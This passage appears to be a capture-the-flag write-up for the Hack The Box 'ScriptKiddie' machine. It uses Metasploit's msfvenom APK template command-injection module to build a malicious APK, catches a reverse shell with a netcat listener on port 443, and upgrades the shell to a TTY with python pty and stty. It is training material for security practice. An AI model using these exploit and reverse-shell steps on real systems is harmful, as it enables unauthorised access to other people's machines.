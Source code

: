 ```

Exploit target:

   Id  Name
   --  ----
   0   Automatic

```

Running it creates an `.apk` file:

```

msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

[+] msf.apk stored at /home/oxdf/.msf4/local/msf.apk

```

### Exploit

If I wanted to catch this shell with `msfconsole`, I could start up an `exploit/multi/handler`, but because the payload is an unstaged shell, I can also use `nc`. I’ll start a `nc` listener on TCP 443 using `nc -lnvp 443`. Then I’ll upload the APK to the site:

![image-20210528122202222](https://0xdfimages.gitlab.io/img/image-20210528122202222.png)

After a few seconds, the site returns an error:

![image-20210105162443427](https://0xdfimages.gitlab.io/img/image-20210105162443427.png)

But there’s shell at `nc`:

```

oxdf@parrot$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.226] 52132 

```

The shell returns with no prompt, but if I enter Linux commands (like `id`) and hit enter, they execute:

```

id
uid=1000(kid) gid=1000(kid) groups=1000(kid)

```

The shell is running as the kid user. I’ll upgrade my shell using Python to get a TTY:

```

python3 -c 'import pty;pty.spawn("bash")'
kid@scriptkiddie:~/.ssh$ ^Z
[1]+  Stopped                 nc -lvnp 443
oxdf@parrot$ stty raw -echo; fg
nc -lvnp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
kid@scriptkiddie:~/.ssh$

```
